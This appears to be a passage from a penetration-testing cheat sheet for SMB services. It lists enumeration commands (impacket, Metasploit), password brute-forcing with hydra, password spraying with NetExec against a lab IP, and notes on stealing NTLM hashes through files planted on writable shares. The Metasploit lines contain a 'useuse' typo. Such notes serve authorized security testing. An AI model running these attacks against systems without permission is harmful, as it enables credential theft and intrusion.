 {% tab title="Enum (2)" %}
```bash
/opt/impacket/examples/samrdump.py 172.16.10.3
```
{% endtab %}

{% tab title="Version" %}
```bash
msf6 > useuse auxiliary/scanner/smb/smb_version
```
{% endtab %}

{% tab title="User Enum" %}
<pre class="language-bash"><code class="lang-bash"><strong>msf6 > useuse auxiliary/scanner/smb/smb_login
</strong></code></pre>
{% endtab %}
{% endtabs %}

## Attacks

### Passwords

{% tabs %}
{% tab title="BFA" %}
```bash
hydra -L user.list -P password.list smb://172.16.10.3
```
{% endtab %}

{% tab title="Spray (Domain)" %}
```bash
nxc smb 172.16.10.3 -u users.lst -p Password123! --continue-on-success
```
{% endtab %}

{% tab title="Spray (Local)" %}
{% code overflow="wrap" %}
```bash
nxc smb 172.16.10.3 -u users.lst -p Password123! --continue-on-success --local-auth
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Hashes

All described methods (SCF, LNL, SC) require `WRITE` access to a share/directory.

* If `WRITE` access to a share is available, [NetExec](../../tools/tools/active-directory/netexec-cme.md) modules can be used for automation.
* If `WRITE` access is only available within a `READABLE` share, the process must be done manually.

For stealing the hash, **the user must only browse the share, not interact with the file**. Finally, the Metasploit's `auxiliary/server/capture/smb` module can be used instead of Responder.
